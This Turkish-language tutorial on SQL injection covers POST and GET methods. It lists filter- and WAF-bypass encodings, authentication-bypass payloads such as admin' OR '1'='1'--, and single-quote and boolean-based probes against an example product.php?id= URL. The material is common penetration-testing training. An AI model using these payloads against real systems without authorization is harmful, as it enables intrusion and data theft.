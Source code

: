 5. POST SQL Injection Bypass Teknikleri
Eğer bazı filtreleme mekanizmaları varsa, şu yöntemler kullanılabilir:
- 1. Karakter Kaçırma (Encoding)
Bazı filtreleme sistemleri belirli karakterleri engelleyebilir. Bunları aşmak için:
URL Encoding: %27 (' yerine)
Hex Encoding: 0x61 (a yerine)
Base64 Encoding
Örnek:
plaintext
```sql
username=admin%27+OR+1%3D1+--
```

- 2. Inline Query Manipülasyonu
Bazı sistemler tırnakları engeller, bu yüzden şu yöntemlerle test edilebilir:
sql
```sql
username=admin' OR '1'='1'--
username=admin" OR "1"="1"--
username=admin') OR ('1'='1'--
```


## SONUÇ
- Manuel Testler: URL ve form girişlerinde SQL komutlarını deneyin.
✅ SQLmap ile Test: SQLmap kullanarak POST tabanlı SQLi açıklarını analiz edin.
✅ WAF ve Filtre Bypass: Encoding ve tamper tekniklerini kullanarak güvenlik duvarlarını aşın.

## SQL Enjeksiyonu (SQLi) - GET Metodu Üzerinden Saldırı
1. GET Tabanlı SQL Enjeksiyonu Nedir?
GET metodu, web uygulamalarında URL parametreleri aracılığıyla veri iletmek için kullanılır. Eğer geliştirici girişleri düzgün şekilde filtrelememişse, saldırganlar URL üzerinden SQL sorgularını manipüle edebilir.
## Örnek Hedef URL:
plaintext
```sql
https://target.com/product.php?id=5
```

Eğer id parametresi doğrudan SQL sorgusuna ekleniyorsa:
sql
```sql
SELECT * FROM products WHERE id = '5';
```

Bu sorgu, saldırıya açık olabilir.


2. GET SQLi Testi (Manuel)
Web sitesinin SQL Injection’a karşı savunmasız olup olmadığını anlamak için birkaç temel test yapılabilir.
- 1. Tek Tırnak (') ile Test Etme
plaintext
```sql
https://target.com/product.php?id=5'
```
Eğer hata mesajı alırsanız (örneğin MySQL syntax error), hedef SQL Injection’a karşı savunmasız olabilir.
- 2. Boolean-Based SQLi Testi
Bu test, farklı ifadelerin TRUE veya FALSE sonuçları verip vermediğini kontrol eder.
- Doğru Sonuç Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=1
- Hata veya Boş Sayfa Döndürmeli
plaintext
https://target.com/product.php?id=5 AND 1=2